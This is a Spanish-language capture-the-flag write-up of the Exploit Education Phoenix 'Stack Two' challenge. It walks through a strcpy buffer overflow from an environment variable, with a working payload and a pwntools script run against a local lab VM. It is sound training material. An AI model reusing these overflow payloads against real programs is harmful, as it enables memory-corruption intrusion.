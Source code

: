 ```yaml
---
layout: single
title: "Stack Two"
permalink: /pwn/phoenix/stack-two/
parent: Phoenix
comments: true
excerpt: "Stack Two"
classes: wide
header:
  teaser: /assets/images/2025-08-17-Phoenix/logo.jpg
categories: [PWN]
tags: [PWN, Linux, Hacking, Easy]
---
```


![Untitled](/assets/images/2025-08-17-Phoenix/banner.png)

En **Stack Two** se introduce el uso de variables de entorno y cómo pueden ser manipuladas para explotar un desbordamiento de buffer.


## Análisis del código fuente

El objetivo es modificar la variable changeme con el valor 0x0d0a090a. Para lograrlo, el programa copia sin validación el contenido de la variable de entorno ExploitEducation al buffer locals.buffer, lo que abre la puerta a un buffer overflow.


```c
/*
 * phoenix/stack-two, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x0d0a090a
 *
 * If you're Russian to get to the bathroom, and you are Finnish when you get
 * out, what are you when you are in the bathroom?
 *
 * European!
 */

#include <err.h>    // Biblioteca para manejo de errores (errx).
#include <stdio.h>  // Biblioteca estándar para entrada/salida.
#include <stdlib.h> // Biblioteca estándar para funciones generales como getenv() y exit().
#include <string.h> // Biblioteca para funciones de manipulación de cadenas como strcpy().
#include <unistd.h> // Biblioteca para funciones del sistema operativo POSIX.

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"
// Define un mensaje constante que se mostrará al inicio del programa.

int main(int argc, char **argv) { 
  // Función principal, recibe argumentos de línea de comandos.

  struct { 
    char buffer[64];          // Define un buffer de 64 bytes para almacenar datos.
    volatile int changeme;    // Variable que debe modificarse mediante un exploit.
  } locals;                   // Agrupa estas variables dentro de la estructura 'locals'.

  char *ptr; 
  // Apuntador para almacenar el valor de una variable de entorno.

  printf("%s\n", BANNER); 
  // Imprime el mensaje de bienvenida definido en BANNER.

  ptr = getenv("ExploitEducation"); 
  // Obtiene el valor de la variable de entorno "ExploitEducation".
  if (ptr == NULL) { 
    // Verifica si la variable de entorno no está configurada.
    errx(1, "please set the ExploitEducation environment variable"); 
    // Muestra un mensaje de error y termina el programa con el código de salida 1.
  }

  locals.changeme = 0; 
  // Inicializa la variable 'changeme' con el valor 0.

  strcpy(locals.buffer, ptr); 
  // Copia el contenido de la variable de entorno "ExploitEducation" en el buffer 'buffer'.
  // Vulnerabilidad: No verifica el tamaño del contenido, lo que permite un desbordamiento de buffer.

  if (locals.changeme == 0x0d0a090a) { 
    // Comprueba si el valor de 'changeme' coincide con el objetivo: 0x0d0a090a.
    puts("Well done, you have successfully set changeme to the correct value"); 
    // Si el valor es correcto, imprime un mensaje de éxito.
  } else { 
    printf("Almost! changeme is currently 0x%08x, we want 0x0d0a090a\n", locals.changeme); 
    // Si el valor no es el esperado, imprime el valor actual de 'changeme' y el valor deseado.
  }

  exit(0); 
  // Termina el programa correctamente con el código de salida 0.
}

```

**Ejecución del binario**

Si ejecutamos el binario sin definir la variable de entorno, aparece un mensaje de error:

```c
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-two 
Welcome to phoenix/stack-two, brought to you by https://exploit.education
stack-two: please set the ExploitEducation environment variable
```

Definimos la variable con 64 caracteres de A y con esto ya nos da la respuesta de que la variable está en 0x00000000

```jsx
user@phoenix-amd64:/opt/phoenix/amd64$ export ExploitEducation=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-two 
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x00000000, we want 0x0d0a090a

```

**Confirmando el overflow**

Si añadimos BBBB (0x42 en ASCII) después de los 64 A, el valor de changeme cambia a 0x42424242: Esto confirma que estamos sobreescribiendo la variable.

```c
user@phoenix-amd64:/opt/phoenix/amd64$ export ExploitEducation=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-two 
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x42424242, we want 0x0d0a090a

```
**Explotación**

Ahora sobreescribimos con el valor solicitado 0x0d0a090a, cuidando el endianness (little-endian en x86): \x0A\x09\x0A\x0D y con esto confirmamos que se logra el reto


```c
user@phoenix-amd64:/opt/phoenix/amd64$ export ExploitEducation=$(python -c 'print "A"*64 + "\x0A\x09\x0A\x0D"')
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-two 
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```

**Explotación con Pwntools**

También podemos automatizar este proceso con un script en Python

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/2_stack-two]
└─# cat Remote_exploit.py 
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: Remote_exploit.py
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #!/usr/bin/env python3
   2   │ from pwn import *
   3   │ 
   4   │ # Define el payload
   5   │ payload = b"A" * 64
   6   │ payload += p32(0x0d0a090a)
   7   │ 
   8   │ # Establece conexión SSH
   9   │ ssh_connection = ssh(user='user', host='localhost', password='user', port=2222)
  10   │ 
  11   │ # Configura la variable de entorno 'ExploitEducation'
  12   │ env_vars = {"ExploitEducation": payload}
  13   │ 
  14   │ # Ejecuta el programa remoto con la variable de entorno configurada
  15   │ process = ssh_connection.process(executable='/opt/phoenix/amd64/stack-two', env=env_vars)
  16   │ 
  17   │ # Captura y muestra la salida
  18   │ flag = process.recvall().decode()
  19   │ log.success("Output: " + flag)
  20   │ 
  21   │ # Cierra la conexión
  22   │ process.close()
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────
```

**Resultado final**

Se evidencia el mensaje que indica que el reto fue resuelto

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/2_stack-two]
└─# python3 Remote_exploit.py 
[+] Connecting to localhost on port 2222: Done
[*] user@localhost:
    Distro    Unknown 
    OS:       linux
    Arch:     amd64
    Version:  4.9.0
    ASLR:     Disabled
    SHSTK:    Disabled
    IBT:      Disabled
    Note:     Susceptible to ASLR ulimit trick (CVE-2016-3672)
[+] Starting remote process '/opt/phoenix/amd64/stack-two' on localhost: pid 583
[!] ASLR is disabled for '/opt/phoenix/amd64/stack-two'!
[+] Receiving all data: Done (141B)
[*] Stopped remote process 'stack-two' on localhost (pid 583)
[+] Output: Welcome to phoenix/stack-two, brought to you by https://exploit.education
    Well done, you have successfully set changeme to the correct value
```

**Conclusión**

En Stack Two vimos cómo una variable de entorno puede ser aprovechada para provocar un desbordamiento de buffer y modificar variables internas del programa.

El reto refuerza dos ideas clave:

  - Las funciones inseguras como strcpy deben evitarse.

  - Variables de entorno pueden ser un vector de ataque si no se validan correctamente.

Con esta técnica pudimos manipular la variable changeme y completar el reto con éxito.